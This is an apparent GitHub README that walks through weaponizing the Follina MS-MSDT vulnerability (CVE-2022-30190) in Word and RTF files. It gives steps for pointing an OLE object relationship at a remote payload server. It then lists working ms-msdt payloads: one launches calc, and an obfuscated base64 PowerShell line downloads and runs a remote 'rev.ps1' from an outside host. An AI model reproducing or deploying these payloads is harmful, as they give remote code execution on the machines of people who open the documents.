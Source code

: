 # MS-MSDT-Office-RCE-Follina
CVE-2022-30190 | MS-MSDT Follina One Click

1. Create a Docx file.
2. In the Docx file, Insert > Object > Bitmap Image > Ok
3. In the Paint application that launched, save the Paint file.
4. Save your Docx file.
5. Open your file as an archive (With 7Zip; Right Click > 7Zip > Open Archive.)
6. Copy out the Document.xml from \Word\ and document.xml.rels file from \word_rels\
7. Open/Edit the \word\_rels\Document.xml.rels and locate the relationship XML Tag with "/relationships/oleObject". After this replace the destination in "Target=" to your remote destination where it will grab the payload from. Also add "TargetMode="External"" to the XML Tag.
8. Compress back to Docx file (Send to > Compressed (zipped) folder  |  Rename file type from zip > docx/doc )

--------------------------------------------------------------------------------------------------------
### RTF File Type
Once a docx has been saved utilizing the paramaters step / paramaters below. Save the Docx as an RTF.

> If you also add these elements under the `<o:OLEObject>` element in `word/document.xml` at step 3:

```
<o:LinkType>EnhancedMetaFile</o:LinkType>
<o:LockedField>false</o:LockedField>
<o:FieldCodes>\f 0</o:FieldCodes>
```

--------------------------------------------------------------------------------------------------------
The act of recompressing can be observed from JohnHammond's Python Script as well:
    ~ Rebuild the original office file ~
    shutil.make_archive(args.output, "zip", doc_path)
    os.rename(args.output + ".zip", args.output)
    
Reference: https://github.com/JohnHammond/msdt-follina/blob/main/follina.py



--------------------------------------------------------------------------------------------------------





## Payloads 

### Basic Calc Execute:

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('calc'))i/../../../../../../../../../../../../../../Windows/system32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>


Can Replace the Start-Process('calc') with:
> IEX('calc.exe')
--------------------------------------------------------------------------------------------------------
### PS1 File Load:

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'cG93ZXJzaGVsbC5leGUgLWMgImlleCAoaXdyIGh0dHA6Ly8xOTIuMTY4LjE5OC4xMjgvcmV2LnBzMSAtVXNlQmFzaWNQYXJzaW5nKSIK'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>  


Decoded:
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("powershell.exe -c "iex (iwr http://192.168.198.128/rev.ps1 -UseBasicParsing)""))

--------------------------------------------------------------------------------------------------------
### Apache2 access.log should show connection upon opening file
![Log Example](/log.png?raw=true "Example")

